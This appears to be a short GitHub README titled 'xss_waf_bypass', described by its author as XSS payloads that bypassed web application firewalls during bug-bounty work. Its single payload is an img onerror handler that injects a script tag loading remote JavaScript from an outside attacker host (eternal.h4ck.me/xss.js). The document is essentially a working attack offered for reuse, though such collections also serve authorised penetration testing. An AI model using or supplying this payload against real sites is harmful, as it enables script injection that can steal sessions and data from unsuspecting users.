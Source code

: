 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

Inject external javascript without using `script` tag

```
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://eternal.h4ck.me/xss.js'; document.head.appendChild(script);">
```

